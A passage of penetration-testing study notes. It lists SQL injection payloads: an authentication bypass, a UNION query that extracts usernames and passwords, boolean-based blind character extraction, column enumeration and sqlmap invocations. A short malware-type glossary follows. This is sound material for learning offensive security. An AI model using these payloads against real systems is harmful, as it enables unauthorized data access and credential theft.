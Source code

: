 **TRY BOTH True AND False CONDITTIONS**
- setting `$id` to something like `' OR 'a'='a` then becomes:
  - `SELECT Name, Description FROM Products WHERE ID='' OR 'a'='a';
  - which will return all `Products`
- `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a`
  - results in creds!

- Using Burp to analyze and manipulate headers (e.g. for logins to SQLi)

### Exploiting Boolean Based SQLi

```sql
mysql> select user();
mysql> select substring('blah', 2, 1);
mysql> select substring(user(), 1, 1) = 'r';

# payload iterations start at a, b, c, ...
' OR substr(user(), 1, 1) = 'a
# once the the first letter is known, try the second at a, b, c, …
' OR substr(user(), 2, 1) = 'a
```

```sql
# extra dash is d/t some browsers removing trailing spaces and this preserves the comment
SELECT description FROM items WHERE id='' UNION SELECT user(); -- -';

# more HTTP queries to discern number of fields/columns
' UNION SELECT null; -- -
' UNION SELECT null, null; -- -
' UNION SELECT null, null, null; -- -

# SQLi examples
' UNION SELECT elsid1, elsid2; -- -
' UNION SELECT user(), elsid2; -- -
```

### SQLMap 🗺️

- Warning: SQLMAP might choose bad, automatic exploit parameters or crash services

```shell
# POST header uses '--data' option
sqlmap -u <URL> -p <INJECTION_PARAMTER> [--data=<POST_STRING>] [options]

# example: test parameter 'id:' with the UNION technique
sqlmap -u 'http://www.hotdog.com/view.php?id=1337' -p id --technique=U
```

## 3.5 System Attacks 🖥️

### Malware 🦠

- virus: code that spreads without authorization across computers
- trojan: embedded code in a seemingly harmless file
  - backdoor: background, unknown access for operator usu client/server
    - reverse/beacon: malware beacons back to operator
    - forward/connect: malware listen for connections from operator
- rootkit: hides from users and sometimes AV or kernel as well to subvert standard OS functions (syscalls)
- bootkits: embeds into bootloader
- adware: displays ads
- spyware: collects user activity such as OS version, visited websites, passwords
- greyware: malware that is not exclusive to a specific category
- dialers: antiquated malware that would dial numbers via dial-up connections to collect money from phone bills
- keylogger: collects keyboard strokes usu for creds
